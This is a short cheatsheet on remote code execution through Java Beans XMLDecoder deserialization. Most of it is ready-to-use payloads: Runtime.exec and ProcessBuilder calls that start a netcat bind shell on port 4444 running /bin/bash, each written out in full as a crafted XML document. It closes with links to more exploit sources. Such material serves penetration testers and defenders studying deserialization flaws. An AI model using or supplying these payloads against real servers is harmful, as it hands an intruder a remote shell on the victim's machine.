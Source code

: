 ## Java Beans XMLDecoder Remote Code Execution cheatsheet

Having a functionality of file upload or other function that is parsing input xml-type data that will later flow through the **XMLDecoder** component of _Java Beans_, one could try to play around it's known deserialization issue. In order to test that issue there should be specially crafted XML-payload used that would invoke arbitrary Java interfaces and methods with supplied parameters.

### Payloads

When one would like to start a bind shell on the target machine, he could use the payload like the following one:
```
Runtime.getRuntime().exec(new java.lang.String[]{"/usr/bin/nc", "-l", "-p", "4444", "-e", "/bin/bash"});
```

In such case desired XML would look like the following one:

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_102" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>4444</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/bash</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

or by using `ProcessBuilder`:

```
new java.lang.ProcessBuilder(new java.lang.String[]{"/usr/bin/nc", "-l", "-p", "4444", "-e", "/bin/bash"}).start()
```

Then the payload would look like:

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_102" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>4444</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/bash</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

For more payloads and guides how to leverage **XMLDecoder** deserialization vulnerability, one can refer to following good quality sources:
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html
- https://github.com/o2platform/DefCon_RESTing/tree/master/Demos/_O2_Scripts/XmlEncoder%20-%20Restlet/exploits

